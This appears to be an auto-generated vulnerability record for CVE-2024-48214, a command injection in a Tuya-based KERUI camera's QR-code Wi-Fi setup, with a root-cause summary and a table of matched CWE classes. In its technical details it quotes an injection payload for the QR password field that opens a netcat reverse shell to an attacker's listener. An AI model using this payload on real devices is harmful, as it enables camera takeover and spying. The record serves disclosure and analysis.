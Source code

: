 # Vulnerability Information: CVE-2024-48214

## Vulnerability Description
KERUI HD 3MP 1080P Tuya Camera 1.0.4 has a **command injection** vulnerability in the module that connects to the local network via a QR code. This vulnerability allows an attacker to create a custom, unauthenticated QR code and abuse one of the parameters, either SSID or PASSWORD, in the JSON data contained within the QR code. By that, the attacker can execute arbitrary code on the camera.

### Vulnerability Description Key Phrases
- **weakness:** **command injection**
- **impact:** execute arbitrary code
- **vector:** custom unauthenticated QR code
- **attacker:** attacker
- **product:** KERUI HD 3MP 1080P Tuya Camera
- **version:** 1.0.4
- **component:** module connecting to local network via QR code

## CVE Reference Links Content Summary
Based on the provided content, here's a breakdown of the vulnerability described:

**Root Cause of Vulnerability:**
The root cause is a command injection vulnerability in the `sys_connect_wifi` function. This function takes the SSID and password extracted from a scanned QR code and uses them to construct a shell command for connecting to Wi-Fi. The lack of sanitization on these inputs allows an attacker to inject arbitrary commands into the shell command.

**Weaknesses/Vulnerabilities Present:**
- **Command Injection:** The primary vulnerability is the direct use of user-provided (QR code scanned) input (SSID and password) within a system command without proper sanitization. This allows an attacker to execute arbitrary shell commands on the device.

**Impact of Exploitation:**
- **Remote Code Execution (RCE):** Successful exploitation allows an attacker to execute arbitrary code on the camera.
- **Full System Control:** With RCE, an attacker can gain complete control over the camera, potentially leading to:
    - Data exfiltration (e.g., video feeds)
    - Modification of camera settings
    - Installation of malware
    - Use of the camera as a bot in a botnet

**Attack Vectors:**
- **QR Code Scanning:** The attack vector is the camera's QR code scanning functionality, used to connect to Wi-Fi networks.
- **Malicious QR Code:** The attacker crafts a malicious QR code containing a specially crafted payload within the password field that includes shell commands.

**Required Attacker Capabilities/Position:**
- **Physical Access:** The attacker needs to present the malicious QR code to the camera's lens.
- **Basic Network Knowledge:** The attacker needs basic network knowledge to set up a listener for the reverse shell, and create a network for the camera to connect to.
- **QR Code Generation:** Ability to generate a QR code with a specific format and command injection payload.

**Technical Details:**
- The vulnerable function is `sys_connect_wifi`.
- The vulnerability occurs because the `ssid` and `password` parameters from the scanned QR code are used directly in a call to the `system()` function without proper sanitization.
- The attacker can inject a payload, for example `$(sh /usr/sbin/lv_wifi_connect.sh {SSID} {PASSWORD} & sleep 30; nc {NC_IP} {NC_PORT} -e /bin/sh)`, into the password field of the QR code.
- The camera connects to the wifi using `lv_wifi_connect.sh` script and after some time a reverse shell will connect to the attacker's netcat listener.

**Additional Notes:**
- The article mentions that the vendor (TUYA) has not responded to the vulnerability report.
- Other potential vulnerabilities, like buffer overflows, were identified but not focused on due to the ease of exploitation of the command injection vulnerability.
- The article details the process of gaining root access to the device via UART, extracting the firmware, enabling telnet and FTP, debugging, and reverse engineering the binary to find the vulnerability, these steps are not necessary for exploitation but provided more context of the device's inner workings.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 77 | Improper Neutralization of Special Elements used in a Command ('Command Injection') | Class | Allowed-with-Review | alternate_terms | 1.000 |
| 2 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | alternate_terms | 0.700 |
| 3 | 138 | Improper Neutralization of Special Elements | Class | Discouraged | sparse | 0.370 |
| 4 | 94 | Improper Control of Generation of Code ('Code Injection') | Base | Allowed-with-Review | sparse | 0.364 |
| 5 | 88 | Improper Neutralization of Argument Delimiters in a Command ('Argument Injection') | Base | Allowed | sparse | 0.355 |
| 6 | 22 | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') | Base | Allowed | sparse | 0.355 |
| 7 | 116 | Improper Encoding or Escaping of Output | Class | Allowed-with-Review | sparse | 0.352 |
| 8 | 306 | Missing Authentication for Critical Function | Base | Allowed | sparse | 0.352 |
| 9 | 790 | Improper Filtering of Special Elements | Class | Allowed-with-Review | dense | 0.541 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |

